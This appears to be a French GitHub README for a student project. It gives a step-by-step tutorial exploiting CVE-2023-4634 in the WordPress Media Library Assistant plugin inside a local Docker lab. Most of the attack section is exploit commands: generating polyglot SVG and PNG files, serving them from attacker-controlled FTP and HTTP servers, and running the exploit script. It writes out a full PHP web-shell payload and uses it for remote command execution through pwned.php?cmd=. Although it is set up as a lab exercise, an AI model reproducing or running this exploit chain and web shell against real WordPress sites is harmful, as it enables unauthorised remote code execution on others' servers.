 # ProjetCL

# Tuto CVE-2023-4634

## Cloner le dépôt Git

Pour commencer, clonez le dépôt Git à l'aide de la commande suivante :

```bash
git clone https://github.com/lehazare/ProjetCL.git
```

## Construction et exécution du conteneur WordPress

Pour exécuter le conteneur WordPress, utilisez la commande suivante :

```bash
docker-compose up
```

## Installation du plugin MLA en version compromise (ex : 3.07) sur WordPress

Consultez la vidéo pour des instructions détaillées sur l'installation du plugin MLA.

## Tester avec Nuclei

Cette étape est optionnelle mais vous permet de vous assurer que l'image WordPress est correctement configurée et que le plugin MLA est installé dans une version compromise.

1. Installez Nuclei en utilisant la commande appropriée pour votre système (`brew install nuclei`, `sudo apt install nuclei`, etc.).
2. Utilisez la commande suivante pour tester avec Nuclei :

```bash
nuclei -u http://0.0.0.0:8080 -t ./CVE-2023-4634.yaml
```

> Note : Modifiez `0.0.0.0:8080` en fonction de l'emplacement où votre conteneur WordPress est en cours d'exécution.

## Début de l'attaque

### Objectif

L'objectif est d'accéder à l'URL suivante :

```
http://localhost:8080/pwned.php?cmd=ls
```

### Installation des modules Python nécessaires

Installez les modules Python nécessaires en utilisant la commande suivante :

```bash
python3 -m pip install -r requirements.txt
```

### Pour tester

Pour effectuer un test, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py -h
```

### Trouver l'adresse de sa machine

Utilisez la commande suivante pour obtenir l'adresse IP de votre machine :

```bash
ifconfig
```

Vous pouvez tester la connectivité en utilisant la commande `ping`.

### FTP

Génération des fichiers SVG :

```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --remotehttp http://192.168.1.103:8081 --png_polyglot_name virus.png --webserverpath /var/www/html --exploitname pwned.php
```

Créez un serveur FTP avec les fichiers SVG en exécutant la commande suivante dans le répertoire `remote_ftp` :

```bash
cd remote_ftp && python3 -m pyftpdlib -p 2122
```

### HTTP

Génération de l'image virus :

```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

Créez un serveur HTTP avec l'image virus en exécutant la commande suivante dans le répertoire `exploit-png` :

```bash
cd exploit-png && python3 -m http.server 8081
```

### Exploitation

Pour l'exploitation, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py --target http://localhost:8080 --remoteftp ftp://192.168.1.103:2122 --remotehttp http://192.168.1.103:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png --exploitname pwned.php
```

Vous pouvez tester l'exploit en ajoutant une commande à l'URL, par exemple :

```
http://localhost:8080/pwned.php?cmd=ls
```

Consultez la vidéo pour plus de détails.

[![Tuto Ytb]()](https://www.youtube.com/watch?v=Flb3U_eNvj0&ab_channel=L%C3%A9oLazare)

